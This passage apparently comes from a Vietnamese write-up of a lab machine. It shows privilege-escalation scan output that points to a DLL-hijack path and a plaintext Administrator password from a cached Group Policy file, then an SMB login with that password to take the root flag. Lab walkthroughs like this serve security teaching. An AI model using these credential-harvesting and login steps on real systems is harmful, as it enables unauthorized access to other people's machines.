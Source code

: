 ```bash
ModifiablePath    : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
IdentityReference : QUERIER\mssql-svc
Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
%PATH%            : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
Name              : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
Check             : %PATH% .dll Hijacks
AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'

UnattendPath : C:\Windows\Panther\Unattend.xml
Name         : C:\Windows\Panther\Unattend.xml
Check        : Unattended Install Files

Changed   : {2019-01-28 23:12:48}
UserNames : {Administrator}
NewName   : [BLANK]
Passwords : {MyUnclesAreMarioAndLuigi!!1!}
File      : C:\ProgramData\Microsoft\Group
            Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
Check     : Cached GPP Files
```

→ Đã có credentials của user `Administrator:MyUnclesAreMarioAndLuigi!!1!`

Thực hiện kết nối đến server với credentials vừa thu được và lấy flag `root.txt`

```bash
# smbclient //10.129.174.78/C$ -U Administrator --password='MyUnclesAreMarioAndLuigi!!1!'
Try "help" to get a list of possible commands.
smb: \> cd users\Administrator\Desktop\
smb: \users\Administrator\Desktop\> ls
  .                                  DR        0  Mon Jan 28 19:04:15 2019
  ..                                 DR        0  Mon Jan 28 19:04:15 2019
  desktop.ini                       AHS      282  Mon Jan 28 17:46:21 2019
  root.txt                           AR       34  Fri Sep 27 21:20:40 2024

                5158399 blocks of size 4096. 842654 blocks available
smb: \users\Administrator\Desktop\> get root.txt
getting file \users\Administrator\Desktop\root.txt of size 34 as root.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \users\Administrator\Desktop\> exit

# cat root.txt
9dacdd79d808106cddc4c545bdc05f2e
```

# 2. Summary - Mapping MITRE ATT&CK

## *Tactics: Reconnaissance*
